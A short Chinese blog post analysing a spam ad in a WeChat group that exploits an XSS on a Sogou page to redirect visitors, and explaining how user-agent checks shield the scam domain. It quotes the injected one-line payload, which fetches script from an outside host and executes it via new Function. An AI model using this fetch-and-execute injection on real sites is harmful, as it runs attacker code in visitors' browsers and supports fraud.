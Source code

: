 ```yaml
---
title: 一个意思的微信群广告
categories:
  - front-end
tags:
  - 安全
img: ../../coverImages/xss.png
date: 2022-10-06 18:00:00
---
```


群广告，语不惊人死不休，

![](/images/2022/10/06/16650521586506.jpg)


跳转之后，出现 sougou 的页面，然后重定向到广告页面。

![](/images/2022/10/06/16650521657367.jpg)


构造了一个 xss，script 标签，被执行。

```js
fetch('//iprozz.com/ffff').then(r=>r.text()).then(C=>new Function(C)())
```

`iprozz.com/ffff` 请求发出去之后，被执行，页面跳转到广告页面。`new Function(C)()` 这种函数执行方式平时用的还是非常少的，安全方面，各种奇奇怪怪的写法，挺有意思。

如果只是到这里，也没必要写这篇博客。尝试调试的时候，发现，在一般浏览器里面是无法请求这个地址的，似乎只在微信的浏览器的可以请求，应该是识别了微信的ua。这样二级跳转，可以对域名做一层保护，减少被封。当域名被封之后，也可以修改服务端的跳转地址，实现快速更换域名的目的。

做戏做全套，我们平时的开发中经常抱有侥幸心理，对比一下人家的态度，我们真的能比骗子更专业吗？